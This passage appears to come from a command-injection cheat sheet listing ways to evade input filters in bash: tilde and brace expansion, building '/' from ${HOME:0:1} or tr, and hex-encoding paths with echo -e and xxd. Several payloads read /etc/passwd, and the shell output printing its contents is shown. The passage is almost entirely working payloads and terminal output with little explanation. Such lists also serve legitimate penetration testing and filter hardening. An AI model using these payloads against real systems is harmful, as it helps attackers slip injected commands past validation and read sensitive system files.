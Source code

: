 
### Bypass With Tilde Expansion

```powershell
echo ~+
echo ~-
```

### Bypass With Brace Expansion

```powershell
{,ip,a}
{,ifconfig}
{,ifconfig,eth0}
{l,-lh}s
{,echo,#test}
{,$"whoami",}
{,/?s?/?i?/c?t,/e??/p??s??,}
```


### Bypass Characters Filter

Commands execution without backslash and slash - linux bash

```powershell
swissky@crashlab:~$ echo ${HOME:0:1}
/

swissky@crashlab:~$ cat ${HOME:0:1}etc${HOME:0:1}passwd
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ echo . | tr '!-0' '"-1'
/

swissky@crashlab:~$ tr '!-0' '"-1' <<< .
/

swissky@crashlab:~$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
root:x:0:0:root:/root:/bin/bash
```

### Bypass Characters Filter Via Hex Encoding

```powershell
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```